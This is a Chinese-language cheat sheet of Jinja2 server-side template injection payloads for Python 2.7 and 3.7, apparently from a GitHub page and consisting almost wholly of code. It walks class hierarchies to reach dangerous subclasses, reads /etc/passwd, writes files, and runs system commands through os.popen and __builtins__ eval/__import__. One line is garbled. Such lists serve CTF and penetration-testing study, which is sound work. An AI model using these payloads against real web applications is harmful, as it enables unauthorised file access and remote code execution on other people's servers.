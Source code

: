 

<br>

***

<br>

# Jinja2

## 基本payload:

```
{{config}} 

获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

输出所有子类的列表:
[].__class__.__bases__[0].__subclasses__()

查找子类下有没有可利用的方法: 
[].__class__.__bases__[0].__subclasses__()[117].__init__["__globals__"]
[].__class__.__bases__[0].__subclasses__()[59].__init__["__globals__"]['__builtins__']
输出中可能包含eval,popen等

#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

# 命令执行
# os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.  #linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
# eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.
# __builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
# 这里popen中是具体执行的系统命令
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")

[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")

[].__class__.__bases__[0].__subclasses__()   [59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```